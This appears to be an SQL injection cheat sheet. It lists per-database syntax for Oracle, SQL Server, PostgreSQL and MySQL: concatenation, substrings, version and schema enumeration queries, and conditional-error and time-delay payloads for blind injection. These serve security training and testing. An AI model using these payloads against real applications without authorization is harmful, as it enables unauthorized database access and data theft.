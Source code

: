 #### String concatenation

| **Oracle**     | `'foo'||'bar'`                                             |
| -------------- | ---------------------------------------------------------- |
| **Microsoft**  | `'foo'+'bar'`                                              |
| **PostgreSQL** | `'foo'||'bar'`                                             |
| **MySQL**      | `'foo' 'bar'` (note the space)<br />`CONCAT('foo', 'bar')` |

#### Substring

* Extracting part of string by specifying starting index (1-based) and length of substring
* Oracle: `SUBSTR('foobar', 4, 2)`
* MS, PostgreSQL, MySQL: `SUBSTRING('foobar', 4, 2)`

#### Database Version

| DB         | Query                                                        |
| ---------- | ------------------------------------------------------------ |
| Oracle     | `SELECT banner FROM v$version`<br />`SELECT version FROM v$instance` |
| Microsoft  | `SELECT @@version`                                           |
| PostgreSQL | `SELECT version()`                                           |
| MySQL      | `SELECT @@version`                                           |

#### Database Contents

* **Oracle**
  * Get tables: `SELECT table_name FROM all_tables`
  * Get columns: `SELECT column_name FROM all_tab_columns WHERE table_name='<name here>'`
* **MS/PostgreSQL/MySQL**
  * Get tables: `SELECT table_name FROM information_schema.tables`
  * Get columns: `SELECT column_name FROM information_schema.columns WHERE table_name='<name here>'`

#### Conditional Errors

Triggers errors for blind SQL

| DB         | Query                                                        |
| ---------- | ------------------------------------------------------------ |
| Oracle     | `SELECT CASE WHEN (<condition here>) THEN to_char(1/0) ELSE NULL END FROM dual` |
| Microsoft  | `SELECT CASE WHEN (<condition here>) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `SELECT CASE WHEN (<condition here>) THEN cast(1/0 as text) ELSE NULL END` |
| MySQL      | `SELECT IF (<condition here>, (SELECT table_name from information_schema.tables), 'a')` |

#### Time Delays

| DB         | Query                                 |
| ---------- | ------------------------------------- |
| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT sleep(10)`                    |

